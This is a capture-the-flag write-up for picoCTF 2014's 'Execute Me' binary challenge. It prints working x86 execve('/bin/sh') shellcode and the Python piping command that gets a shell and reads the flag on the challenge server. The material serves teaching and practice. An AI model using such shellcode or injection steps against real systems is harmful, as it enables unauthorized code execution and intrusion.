 ## Execute Me - 80 (Binary Exploitation) ##
#### Writeup by Oksisane

Created: 2014-11-09 13:07:47

Last modified: 2014-11-10 00:24:20

### Problem ###

This program will run whatever you send to it! Try to get the flag! The binary can be found at `/home/execute/` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/ExecuteMe/execute.c).

### Hint ###

You can get the flag in a number of ways, but the easiest would be to run a shell.

## Answer ##

### Overview ###

Use the program to execute some shellcode.

### Details ###

Let's start by running the program on the server. When we run it and enter `/bin/sh` the following appears:

```bash
pico89244@shell:~$ cd /home/execute/
pico89244@shell:/home/execute$ ./execute
/bin/sh
Segmentation fault (core dumped)
pico89244@shell:/home/execute$
```

Huh, that's not good. Looking a little closer at the code we see this:
```c
read(0, buf, 128);
((function_ptr)buf)();
```
So the program reads in our buffer and executes it. However, it is not executing the buffer as we would expect, with the `system()` command to run a command in the shell. Instead, it is executing the **assembly commands** that we put in the buffer. The hint tells us to run a shell, so we should use `shellcode`. Shellcode typically is in the form of a bunch of hex values that can be executed to perform a function such as running `cat` or `/bin/sh`. Many websites provide shellcode, such as [shell-storm](http://shell-storm.org/shellcode/). For now, let's use [this shellcode](http://shell-storm.org/shellcode/files/shellcode-752.php) to run `execve("/bin/sh")`
```bash
pico89244@shell:/home/execute$ ./execute
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
Segmentation fault (core dumped)
pico89244@shell:/home/execute$

```
Huh, that still didn't work. Our next task is to `pipe` the hex values into the program instead of type them in. Right now, the program interprets `\x31`as 4 separate ascii values instead of ascii value `0x31` (or 49 in base 10). To do this we can use Python:
```bash
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'") | ./execute
pico89244@shell:/home/execute$
```
This uses Python to print our hex characters into the program. Note the use of a `"` to encapsulate the Python code  and the `'` to encapsulate the `print` command. This time, we get no error but still no shell! The shell is successfully running with this shellcode but is exiting before we can input anything into it. The final step here is to add a `cat` to the end of our Python command, which prevents this.
```
pico89244@shell:/home/execute$ (python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | ./execute
whoami
pico89244
cat flag.txt
shellcode_is_kinda_cool
```
Our shell runs successfully and we get our flag!
### Flag ###

    shellcode_is_kinda_cool

